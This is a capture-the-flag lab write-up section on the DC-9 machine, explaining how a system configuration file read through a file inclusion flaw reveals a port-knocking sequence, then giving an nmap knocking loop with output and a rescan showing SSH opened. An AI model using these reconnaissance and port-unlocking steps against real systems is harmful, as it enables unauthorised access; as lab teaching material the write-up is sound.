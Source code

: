```yaml
---
layout: default
title: Port Knocking
nav_order: 3
---
```


# Port Knocking

---

## Test Port Knocking via LFI

Attempt to access the Knock Daemon at _/etc/knockd.conf_ to get the sequence to open a port.

![knockd](../../../assets/images/ctfs/proving_grounds/dc-9/knockd.png)

This gives us the sequence required to unlock the SSH service on the target.

Use the following script to unlock the port via port knocking:

```bash
# Create knock.sh
vim knock.sh

# Add the following bash scripting for loop
for x in 7469 8475 9842; do
    nmap -Pn --host-timeout 201 --max-retries 0 -p $x 192.168.160.209;
done


# Run the knock script
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ ./knock.sh
3Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 22:57 EST
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Host Discovery
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 192.168.160.209
Host is up (0.055s latency).

PORT     STATE  SERVICE
7469/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 22:57 EST
Nmap scan report for 192.168.160.209
Host is up (0.054s latency).

PORT     STATE  SERVICE
8475/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 22:57 EST
Nmap scan report for 192.168.160.209
Host is up (0.054s latency).

PORT     STATE  SERVICE
9842/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds


```

Then we rescan the target and now see that port 22 is open.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ nmap -p22 192.168.160.209
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 22:57 EST
Nmap scan report for 192.168.160.209
Host is up (0.055s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.14 seconds
```
